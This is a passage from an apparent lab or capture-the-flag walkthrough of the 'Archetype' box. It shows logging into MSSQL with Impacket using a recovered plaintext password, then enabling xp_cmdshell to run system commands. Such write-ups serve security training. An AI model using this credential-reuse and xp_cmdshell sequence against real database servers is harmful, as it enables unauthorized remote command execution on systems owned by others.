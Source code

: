 ## Foothold
### mssqlclient

The file contains some credentials which we will use with the impacket mssqlclient, if you use Kali Linux you can get it from ```/usr/share/doc/python3-impacket/examples/mssqlclient.py``` or you can download it from its [github](https://github.com/SecureAuthCorp/impacket) repo with:
```shell
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/mssqlclient.py
```
or with Kali Linux:
```shell
cp /usr/share/doc/python3-impacket/examples/mssqlclient.py .
```
When you have mss, start session to the server with the credentials obtained in prod.dtsConfig with:
```
kyb3r@vizsla:~$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

Password: M3g4c0rp123
Impacket - Copyright SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```
![mssqlclient](mssqlclient.png)

### xp_cmdshell
Now we will enable xp_cmdshell ("Spawns a Windows command shell and passes in a string for execution") to gain Remote Command Execution (RCE) with the following commands/codes:
```sql
EXEC sp_configure ‘Show Advanced Options’, 1;
reconfigure;
sp_configure;
EXEC sp_configure ‘xp_cmdshell’, 1
reconfigure;
xp_cmdshell “whoami”
```
When the SQL console returns, it means that we have done it correctly:
```sql
SQL> xp_cmdshell “whoami”
output

---------------------------

archetype\sql_svc

NULL
```